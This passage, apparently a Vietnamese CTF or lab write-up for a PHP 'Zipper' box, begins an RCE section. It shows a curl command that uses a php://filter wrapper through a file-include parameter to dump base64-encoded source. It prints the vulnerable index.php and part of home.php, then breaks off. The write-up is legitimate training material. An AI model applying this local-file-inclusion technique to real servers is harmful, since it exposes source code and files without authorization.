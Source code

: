 
## II. Exploit

### 1. RCE

Truy cập vào `/index.php` và truy cập vào Home, ta thấy URL có param `file`:

![](https://i.imgur.com/FlBYWpK.png)

Ta có thể thử đọc nội dung của file index thông qua [PHP Wrapper](https://www.php.net/manual/en/wrappers.php.php):

```console 
$ curl 'http://192.168.205.229/index.php?file=php://filter/convert.base64-encode/resource=index' -s | base64 -d

<?php
$file = $_GET['file'];
if(isset($file))
{
    include("$file".".php");
}
else
{
include("home.php");
}
?>
```

Như vậy, server sẽ append thêm `.php` vào `file` param và sau đó `include` nó.

Tiếp theo, thử chức năng upload file:

![](https://i.imgur.com/4CwNwQZ.png)

Tương tự, hãy cùng xem trong `home.php` có gì?

```php 
<!DOCTYPE html>
<html lang="en" >
<head>
  <meta charset="UTF-8">
  <title>Zipper</title>
  <meta name="viewport" content="width=device-width, initial-scale=1", shrink-to-fit=no"><link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/normalize/5.0.0/normalize.min.css">
<link rel='stylesheet' href='https://cdnjs.cloudflare.com/ajax/libs/twitter-bootstrap/4.0.0-beta.2/css/bootstrap.min.css'>
<link rel='stylesheet' href='https://cdnjs.cloudflare.com/ajax/libs/font-awesome/4.7.0/css/font-awesome.min.css'><link rel="stylesheet" href="./style.css">
<link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/4.0.0/css/bootstrap.min.css">

</head>
<body>
<?php include 'upload.php'; ?>
<!-- partial:index.partial.html -->
<nav class="navbar navbar-expand-md navbar-dark fixed-top bg-dark">
  <a class="navbar-brand" href="#">
    <i class="fa fa-codepen" aria-hidden="true"></i>
    Zipper
  </a>
  <button class="navbar-toggler" type="button" data-toggle="collapse" data-target="#navbarsExampleDefault" aria-controls="navbarsExampleDefault" aria-expanded="false" aria-label="Toggle navigation">
    <span class="navbar-toggler-icon"></span>
  </button>

```